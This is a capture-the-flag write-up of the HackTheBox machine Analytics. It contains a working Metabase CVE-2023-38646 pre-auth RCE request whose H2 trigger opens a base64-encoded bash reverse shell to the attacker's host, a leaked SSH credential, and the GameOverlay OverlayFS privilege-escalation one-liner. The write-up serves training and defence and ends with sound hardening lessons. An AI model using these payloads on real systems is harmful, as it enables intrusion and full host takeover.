


<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 22.04), **Difficulty:** Easy, **Released:** 2023-11-25, **IP:** `10.10.11.233` → `analytical.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Web root redirects to `analytical.htb`; vhost fuzzing finds `data.analytical.htb`.
2. `data.` runs **Metabase**, vulnerable to **CVE-2023-38646**. A pre-auth `setup-token` leak at `/api/session/properties` that leads to RCE through a malicious **H2 JDBC** connection string.
3. Send `POST /api/setup/validate` with an H2 `CREATE TRIGGER` that runs a base64 bash reverse shell → shell inside the Metabase **container**.
4. Container env vars (`env` / `/proc/1/environ`) leak **`metalytics : An4lytics_ds20223#`** → SSH to the host.
5. Kernel is Ubuntu with vulnerable OverlayFS (**GAMEOVERLAY**, CVE-2023-2640 / CVE-2023-32629) → one-liner → root.

</div>

<div class="callout callout-key">

**Credentials & Flags**


| Where | Value |
| --- | --- |
| Metabase container env | `metalytics : An4lytics_ds20223#` |
| `user.txt` | `/home/metalytics/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

When I sat down with Analytics, it turned into a clean two-move box for me: one CVE to get a foothold, one kernel CVE to take root, with a Docker container sitting in between whose leaked environment variables handed me the SSH credentials I needed to bridge the two. The first lesson I walked away reinforcing was one I already knew but keep relearning anyway: enumerate the vhosts before you do anything else. The root domain here is effectively dead weight; the entire application lives on `data.`, and I wouldn't have found it without fuzzing the Host header. Beyond that, this box is a textbook example of how modern "N-day" boxes are meant to be solved. I fingerprinted the running product and its version, matched that against a public CVE, and then adapted a known payload rather than reinventing anything from scratch. The part I actually spent time understanding, rather than just copy-pasting, was *why* the Metabase bug results in code execution in the first place. At its core it's a JDBC connection string injection into an embedded H2 database, and H2 happens to let you define SQL triggers that execute arbitrary Java. Once I understood that mechanism, the payload stopped feeling like magic and started feeling like an obvious consequence of the design.

I keep seeing the same shape recur across other boxes I've worked, which is worth calling out here. On the N-day web side, [Monitored](/writeups/hackthebox/linux/medium/monitored/) (a Cacti CVE), [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/) (Cacti plus a Docker escape), and [Cactus](/writeups/tryhackme/linux/easy/cactus/) (Cacti again) all follow the identical fingerprint-CVE-payload rhythm I used here. On the kernel side, [Bizness](/writeups/hackthebox/linux/easy/bizness/) takes a different route to root, but [GameBuzz](/writeups/tryhackme/linux/hard/gamebuzz/), [Uranium CTF](/writeups/tryhackme/linux/hard/uranium-ctf/), and [Theseus](/writeups/tryhackme/linux/insane/theseus/) all lean on PwnKit; the OverlayFS bug I used on Analytics is really the same underlying story of a distro kernel that's fallen behind on patches.

---

## Full Walkthrough

The first thing I did was just point a browser at the target IP to see what was actually being served. Instead of a normal landing page, the server immediately redirected me to a different domain entirely, which told me the real content wasn't going to be sitting at the root.



That redirect was my cue to start looking for other names the server might respond to, so I reached for Ffuf and fuzzed the Host header against the base domain. That approach paid off quickly and turned up a subdomain I hadn't seen anywhere in the initial recon.

```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -c \
  -u http://analytical.htb/ -H "Host: FUZZ.analytical.htb" --mc all --fw 4
```

```console
data                    [Status: 200, Size: 77702, Words: 3574, Lines: 28]
```

<div class="callout callout-note">

**Why `--fw 4` / `--mc all`**

I chose those flags deliberately once I noticed the server was answering *every* Host header with the same default page. Filtering on HTTP status wasn't going to help me here since everything came back as a 200, so instead I filtered out the **word count** of that boilerplate response (`4`) and let Ffuf surface only the hosts that returned something different. `data.` came back as a full Metabase application at 3574 words, well outside that baseline, so it survived the filter and stood out immediately. This "filter the baseline, keep the outliers" approach is really the core technique behind any vhost or parameter fuzzing exercise: you're not looking for a specific signature, you're looking for whatever doesn't match everything else. I've leaned on the exact same idea on [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Heal](/writeups/hackthebox/linux/medium/heal/), and [Environment](/writeups/hackthebox/linux/medium/environment/).

</div>

Once I browsed to `data.analytical.htb` directly, it was obvious from the login page and branding that I was looking at a Metabase instance. Rather than manually hunting through CVE databases for every known Metabase issue, I ran nuclei against it with the CVE template pack to get a quick, automated read on what might already be exploitable.

```bash
nuclei -t ~/nuclei-templates/http/cves -u http://data.analytical.htb/ -rl 40
```

```console
[CVE-2023-38646] [http] [critical] http://data.analytical.htb/api/setup/validate
```

Nuclei flagged CVE-2023-38646 as critical, but I don't take a scanner's word for it without confirming manually, so before I did anything destructive I visited `http://data.analytical.htb/api/session/properties` myself to verify the finding. Sure enough, the response handed me the pre-auth `setup-token` directly, which meant this instance really was vulnerable and I had everything I needed to move to exploitation.



<div class="callout callout-note">

**CVE-2023-38646, Metabase pre-auth RCE**

Before I fired the payload I wanted to actually understand the mechanics behind this CVE rather than just trust that it would work. Metabase versions before 0.46.6.1 expose the first-run **`setup-token`** at the unauthenticated endpoint `GET /api/session/properties`. That token is only supposed to remain valid until an admin account has been created during initial setup, but the check that's meant to invalidate it afterward is missing, so it keeps working even against a fully configured, already-in-production instance. From there, `POST /api/setup/validate` lets anyone holding that token *test* a database connection, and because Metabase bundles the embedded **H2** engine, the JDBC URL you supply accepts INIT parameters and trigger definitions as part of the connection string. That's the whole vulnerability in one sentence: if I can control the JDBC URL, I can define a `CREATE TRIGGER ... AS $$ ... java.lang.Runtime.getRuntime().exec(...) $$` clause, and H2 will happily run that Java code the moment it validates the connection. No authentication, no user interaction, just a crafted string. Metabase patched this by removing the unauthenticated token exposure and blocking H2 as a user-suppliable connection engine.

</div>

With the token in hand, my next step was to use Burp to intercept the actual setup request Metabase's frontend sends, so I had a real, well-formed template to modify rather than guessing at the JSON structure myself. The initial request already leaks the `setup-token` I needed, so I dropped that value straight into the malicious `db` connection string and rebuilt the validate payload:

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 822

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details": {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules": {},
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjIzOC85MDAxIDA+JjE=}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

I encoded the reverse shell as base64 inside the trigger body specifically to dodge any quoting or escaping issues that a raw shell command would run into once it's nested inside a SQL statement inside a JSON payload; decoded, that blob is just `bash -i >& /dev/tcp/10.10.14.238/9001 0>&1`. I set up `nc -lvnp 9001` to listen on my attacking box, fired the request off in Burp, and had a shell land almost immediately.

<div class="callout callout-note">

**Beyond the recorded notes, Container → host → root**

My original notes from this box actually stop right at the payload, so I want to walk back through the rest of it here from memory, because it's the more interesting half.

**1. I landed as `metabase` inside a Docker container.** A quick look around confirmed it immediately: `hostname` returned a short hash instead of anything resembling a real machine name, `/` had a `.dockerenv` file sitting in it, and there was no `metalytics` home directory anywhere on the filesystem, which was odd given the credential naming I'd already seen. My instinct with any containerized app is to check the environment for anything the orchestration layer might have injected, since it's such a common way for images to pass in database or service credentials. Metabase turned out to store its SSH-reusable creds exactly that way:
```bash
env | grep -i meta
# META_USER=metalytics
# META_PASS=An4lytics_ds20223#
```
(worth noting `/proc/1/environ` gives you the same thing if `env` is ever restricted or missing.)

**2. With those credentials in hand, I went straight for SSH to the real host:**
```bash
ssh metalytics@analytical.htb      # An4lytics_ds20223#
cat user.txt
```

**3. Getting from there to root came down to GAMEOVERLAY (CVE-2023-2640 + CVE-2023-32629).** One of the first things I check on any fresh foothold is the kernel version, and `uname -r` here showed a `6.2.0` Ubuntu kernel, which immediately made me think of the recent OverlayFS privilege escalation bugs. This particular flaw lets file capabilities set inside an unprivileged user namespace get honored once they land on the upper layer of an overlay mount, which is exactly the kind of namespace/capability confusion that's been showing up in Ubuntu kernels repeatedly. I reached for the public one-liner exploit for it:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m &&
touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt; bash")'
```
Running it dropped me straight to `uid=0`.

</div>

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/metalytics/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons & Takeaways

- **Always fuzz vhosts and subdomains first when the root domain is a redirect or placeholder.** This is probably the habit I got the most direct value from on this box. If I'd stopped at the landing page, I never would have found `data.`, and the entire attack chain depends on it. Whenever a target's root domain looks like a stub, dead-end, or unrelated redirect, I now treat that as a signal, not a dead end, that the real application is sitting on another vhost like `data.`, `dev.`, or `admin.` that simply isn't linked from anywhere public.
- **N-day exploitation is a workflow, not a lucky guess.** Fingerprint the product, pin down the exact version, search for a matching CVE (nuclei is my first pass here, since it's fast and covers a huge template library), and then confirm the finding with a benign, non-destructive probe, in this case `/api/session/properties`, before I ever fire the real payload. Scanners produce false positives constantly, and I don't want to burn a working shell opportunity or trip an IDS on a box that turns out not to actually be vulnerable.
- **Secrets baked into environment variables are not a safe hiding place.** Any process running in that container, or anyone who compromises it, can read them straight out of `env` or `/proc/<pid>/environ`, no privilege escalation required. From a defensive engineering standpoint, this is exactly the kind of thing a secrets manager or a tightly permissioned mounted file solves, and `-e PASS=...` in a Dockerfile or compose file should be treated as a smell, not a convenience.
- **A patched application doesn't mean a patched host.** The Metabase container being current didn't matter once I found the SSH creds, because the underlying Ubuntu kernel was still months behind on OverlayFS fixes. Distro kernels lag upstream constantly, and namespace-related bugs (OverlayFS, `nsenter`, `user_namespaces`) keep resurfacing in slightly different forms, so kernel patching needs to be tracked as its own maintenance lane, separate from application patching.
- **Don't let a database engine that can execute code be user-selectable.** H2's trigger syntax turning into arbitrary Java execution is the root cause of the entire foothold here, and it's a good reminder that any embeddable SQL engine offering that kind of extensibility is a liability the moment an untrusted user can control the connection string.

---

## Related Writeups

- **N-day web product + version → public exploit:** [Monitored](/writeups/hackthebox/linux/medium/monitored/), [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Cactus](/writeups/tryhackme/linux/easy/cactus/), [Heal](/writeups/hackthebox/linux/medium/heal/)
- **Container escape via leaked creds / env:** [MonitorsTwo](/writeups/hackthebox/linux/easy/monitorstwo/), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/)
- **Kernel / local-privesc CVE to root:** [GameBuzz](/writeups/tryhackme/linux/hard/gamebuzz/), [Uranium CTF](/writeups/tryhackme/linux/hard/uranium-ctf/), [Theseus](/writeups/tryhackme/linux/insane/theseus/)
- **vhost / Host-header fuzzing:** [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Environment](/writeups/hackthebox/linux/medium/environment/), [Heal](/writeups/hackthebox/linux/medium/heal/)

## References

- CVE-2023-38646 (Metabase) <https://nvd.nist.gov/vuln/detail/CVE-2023-38646>
- Metabase advisory GHSA-w73p- mp8v-2xxv <https://github.com/metabase/metabase/security/advisories>
- GAMEOVERLAY (CVE-2023-2640 / CVE-2023-32629) <https://ubuntu.com/security/CVE-2023-2640>
- H2 database `CREATE TRIGGER` <https://www.h2database.com/html/commands.html#create_trigger>
